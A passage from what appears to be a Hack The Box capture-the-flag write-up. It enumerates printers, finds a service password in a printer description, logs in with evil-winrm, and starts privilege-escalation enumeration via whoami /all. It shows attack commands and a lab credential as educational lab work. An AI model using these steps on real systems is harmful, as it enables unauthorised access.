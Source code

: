 
We'll also recall that this scenario is based around a print service, so we can safely assume the domain has printers. Let's enumerate them.

```bash
> enumprinters
	flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

Right in the description is a password! And we've also discovered the username on the domain for the print service: svc-print. Let's see if this password is current and attempt remote access using `evil-winrm`, a Windows Remote Management tool for pentesting.

```bash
$ evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

We've successfully gained a foothold, let's grab the first flag.

![](/assets/img/posts/htb/07-2020-6/user-flag.png)

## Root Flag

Alright, let's try to escalate our privileges. Before diving into more intrusive enumeration methods, we'll run the `whoami` command to see if we have any special access or privileges that we can abuse.

```powershell
> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
```
